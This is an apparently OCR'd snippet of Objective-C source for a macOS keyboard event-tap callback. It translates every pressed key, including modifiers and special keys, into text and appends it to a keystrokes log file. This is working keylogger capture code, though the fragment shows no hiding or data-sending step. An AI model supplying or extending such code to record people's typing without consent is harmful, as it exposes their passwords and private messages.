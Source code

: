 ```objectivec
if (type == kCGEventKeyDown) {
CGKeyCode keyCode = (CGKeyCode)CGEventGetIntegerValueField(event, kCGKeyboardEventKeycode);

NSString *keyString = nil;
// First, handle special non-printable keys
switch (keyCode) {
case kVK_Return: keyString = @"<Return>"; break;
case kVK_Tab: keyString = @"<Tab>"; break;
case kVK_Space: keyString = @"<Space>"; break;
case kVK_Delete: keyString = @"<Delete>"; break;
case kVK_Escape: keyString = @"<Escape>"; break;
case kVK_Command: keyString = @"<Command>"; break;
case kVK_Shift: keyString = @"<Shift>"; break;
case kVK_CapsLock: keyString = @"<CapsLock>"; break;
case kVK_Option: keyString = @"<Option>"; break;
case kVK_Control: keyString = @"<Control>"; break;
case kVK_RightControl: keyString = @"<Control>"; break;
case kVK_RightShift: keyString = @"<Shift>"; break;
case kVK_RightOption: keyString = @"<Option>"; break;
case kVK_Function: keyString = @"<Function>"; break;
case kVK_F1: keyString = @"<F1>"; break;
case kVK_F2: keyString = @"<F2>"; break;
case kVK_F3: keyString = @"<F3>"; break;
// Add more cases here for other non-printable keys...
default: break; // Not a special non-printable key
}

// If it's not a special key, try to translate it
if (!keyString) {
UniCharCount maxStringLength = 4;
UniCharCount actualStringLength = 0;
UniChar unicodeString[maxStringLength];

TISInputSourceRef currentKeyboard = TISCopyCurrentKeyboardInputSource();
CFDataRef layoutData = TISGetInputSourceProperty(currentKeyboard, kTISPropertyUnicodeKeyLayoutData);
const UCKeyboardLayout *keyboardLayout = (const UCKeyboardLayout *)CFDataGetBytePtr(layoutData);

UInt32 deadKeyState = 0;
OSStatus status = UCKeyTranslate(keyboardLayout,
keyCode,
kUCKeyActionDown,
0,
LMGetKbdType(),
kUCKeyTranslateNoDeadKeysBit,
&deadKeyState,
maxStringLength,
&actualStringLength,
unicodeString);
CFRelease(currentKeyboard);

if (status == noErr && actualStringLength > 0) {
keyString = [NSString stringWithCharacters:unicodeString length:actualStringLength];
} else {
keyString = [NSString stringWithFormat:@"<KeyCode: %d>", keyCode];
}
}

NSString *logString = [NSString stringWithFormat:@"%@\n", keyString];
AppendStringToFile(logString, kKeystrokesLogPath);
}
return event;
}
```